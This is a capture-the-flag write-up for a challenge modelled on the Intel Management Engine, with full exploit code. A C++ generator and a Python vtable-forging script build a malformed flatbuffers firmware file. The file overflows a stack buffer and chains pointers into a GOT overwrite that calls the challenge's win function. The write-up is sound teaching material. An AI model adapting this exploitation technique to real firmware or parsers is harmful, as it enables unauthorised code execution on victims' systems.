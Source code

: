 ```yaml
---
title: "Conundrum at El Nit Patroon Rico"
layout: page
---
```

- legend

\* A long time ago in a galaxy far, far away.... *

Company headquarters, El Nit Patroon Rico:

[A] In order to satisfy our shareholders, we need a piece of the hardware to be invisible to the user and really hard to tamper. Any ideas?

[B] Mm. We should put another CPU onto the motherboard, load proprietary code on it and make sure the boot0 rom checks digital signatures on that.

[A] Sounds so orwellian when you say it Billy. I love it. Any way this could go wrong?

[B] Maybe. But we can put more obscurity around it, I have a few ideas. Huffman compression with unknown dictionaries burned into boot0, hardware fuses, no documentation.

[A] Fascinating, I will present it to the board of directors. El Nit Patroon Rico will be great again, thanks to you Billy.

`nc challenges.crysys.hu 5010`

_author: Sun G_

Attached files:
- [mefw.fbs](mefw.fbs)
- [me](me)

## Writeup

Looking into the `me` a bit we can see that it reads a "filesystem" from a "firmware" (packed with flatbuffers, and we are even given the fbs file), loads one file, and does nothing.

Generating a valid flatbuffers file was kinda straightforward, mostly following the tutorial, except that finalizing the buffer must be done by `me::FinishFwHeaderBuffer(builder, fs);` or the file will be invalid.

From the strings, I just get reminded of `Intel ME` or `Intel Management Engine`, a platform-control processor in intel motherboards. I've heard of this stuff, but did not know anything really.

But what I knew was, that the author actually had a talk about it: [Dávid Török - My Adventures in Disabling Intel ME 12](https://www.youtube.com/watch?v=MqR6i6qvZFc) (watch it, it's great)

That leads us to another talk of the researchers who first hacked intel ME: [How to Hack a Turned-Off Computer, or Running Unsigned Code in Intel Management Engine](https://www.youtube.com/watch?v=9fhNokIgBMU)

And guess what, the challenge just had the same vulnerability! Basically, `/home/bup/ct` gets read into a fixed-size buffer on the stack, regardless of it's real size. 

Stack canary would catch us, but the Russian researchers found a way around it. There's an object on that stack used to determine address to write, and overflew that to write into a return pointer of a sub-function, and thus redirect the execution to a ROP chain.

It turns out we can't really do the same thing, because the stack randomness is too high - but we still have similar objects determining address to write.

We have so few building blocks that the solution follows kinda naturally. The only global object we partially control is a pointer to the flatbuffer data of of the `FwHeader` entry.

What we need to overwrite a pointer on the stack is:
- pointer to a struct
- that struct's entry at `0x68` should point to another struct
- said struct's entry at `0x28` be a vector
- said vector is a struct with 2 important entries: at `0x0` a pointer to the first entry, `0x8` a pointer to the last
- each entry should be a pointer to a struct
- those structs have 3 important entries: `0x0` size to write (ignored), `0x8` pointer to destination of write, `0x10` should be 0


Well, we can just reuse the flatbuffer data 3 times:
- write pointer to `data - 0x68` to stack
- at `data+0x28` write global address of pointer, `data+0x30` write that address + 8 (set up vector)
- at `data+8`, write address we want to override
- at `data+16`, write 0

Okay, but the flatbuffer thing is complicated, and we can't just insert any data, right? Some fields of it are checked, and they are at the beginning, and also the whole thing is not long enough for that!

[Well, it turns out](https://github.com/dvidelabs/flatcc/blob/master/doc/binary-format.md), if we modify the `vtable`, we can insert any data we like into it, except in the first 4 bytes - but those are never needed! How convenient!

So, what to overwrite? I went for a classic GOT overwrite. We have a `win` function, so the target is obvious. I had to consider functions called from `win`, so I won't get infinite recursion - I've chosen `__assert_fail()` as my entrypoint, as that's easy to trigger by a wrongly-sized chunk, and with a 64 byte write I still don't write any functions used by `win`.

Generating the flatbuffers file:
```cpp
#define FLATBUFFERS_DEBUG_VERIFICATION_FAILURE
#include "mefw_generated.h"
#include <iostream>
#include <string>
#include <fstream>
#include <vector>

int main() {
    
    flatbuffers::FlatBufferBuilder builder;
    auto filename = builder.CreateString("/home/bup/ct");
    std::vector<flatbuffers::Offset<me::Chunk>> chunksvec;
    for (int i = 0; i<18; i++) {
        std::string payload(64, 'A');
        std::vector<uint8_t> chunkdata_vec;
        
        if (i==15) {
            for (int k = 0; k<16; k++) {
                chunkdata_vec.push_back(payload[i]);
            }
            /*
            chunkdata_vec.push_back(0xa0);
            chunkdata_vec.push_back(0x90);
            chunkdata_vec.push_back(0x40);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            // 00 00 00 00 00 40 90 A0
            */
            chunkdata_vec.push_back(0x78-0x68);
            chunkdata_vec.push_back(0x91);
            chunkdata_vec.push_back(0x40);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0x00);
            // 00 00 00 00 00 40 91 78
            for (int k = 0; k<64-16-8; k++) {
                chunkdata_vec.push_back(payload[i]);
            }
        } else if (i==17) {
            chunkdata_vec.push_back('A');
        } else if (i==16) {
            for (int k = 0; k<8; k++) {
               chunkdata_vec.push_back(0x18);
                chunkdata_vec.push_back(0x1e);
                chunkdata_vec.push_back(0x40);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0x00);
                // 401E18
            }
        } else {
            for (int k = 0; k<64; k++) {
               chunkdata_vec.push_back(payload[i]+i);
            }
        }
        auto chunk = me::CreateChunkDirect(builder, &chunkdata_vec);
        chunksvec.push_back(chunk);
    }
    auto f = me::CreateFileDirect(builder, "/home/bup/ct", 18, false, &chunksvec);
    std::vector<flatbuffers::Offset<me::File>> allFilesVec;
    allFilesVec.push_back(f);
    auto filesVector = builder.CreateVector(allFilesVec);
    auto fs = me::CreateFwHeader(builder, 0x1337,0x1337,0x1337, filesVector);
    me::FinishFwHeaderBuffer(builder, fs);
    int size = builder.GetSize();
    auto pt = builder.ReleaseBufferPointer();
    std::cout<<"Generated payload buffer!"<<std::endl;
    std::ofstream wf("firmware", std::ios::out | std::ios::binary);
    if (!wf) {
        std::cout<<"Could not create file :("<<std::endl;
        return -1;
    }
    wf.write((char*)pt.data(), size);
    wf.close();
    if (!wf.good()) {
        std::cout<<"Error at write time!"<<std::endl;
        return -1;
    }
    std::cout<<"Done!"<<std::endl;

    flatbuffers::Verifier v(pt.data(), size);
    bool ok = me::VerifyFwHeaderBuffer(v);
    std::cout<<"Verification: "<<ok<<std::endl;
    return 0;
}
```

And modding it and putting in extra data:
```python
# add fake data to the root table
# namely 256 bytes

with open("firmware","rb") as fin:
    data = fin.read()

# vtable len
# table len + 0x100
# ofset1 + 0x100
# ofset2
# ofset3
# ofset4
fake_vtable =     b"\x0c\x00" + \
                  b"\x10\x01" + \
                  b"\x06\x01" + \
                  b"\x08\x01" + \
                  b"\x0a\x01" + \
                  b"\x0c\x01"

main_table = data[0x18:]

extradata = list(b"\x00"*0x100)
for i,d in enumerate([0x78,0x91,0x40]):
    extradata[0x28-4+i] = d
for i,d in enumerate([0x78+8,0x91,0x40]):
    extradata[0x28-4+8+i] = d

for i,d in enumerate([0x38,0x8c,0x40]):
    extradata[4+i] = d

extradata = bytes(extradata)



out_data = data[:8]+b"\x00"*4+fake_vtable+main_table[:4]+extradata+main_table[4:]

with open("firmware_fed","wb") as fout:
    fout.write(out_data) 
```

Also, `El Nit Patroon Rico` is an anagram for `Intel Corporation` or `Intel CIA porn root`. Idk witch one was intended...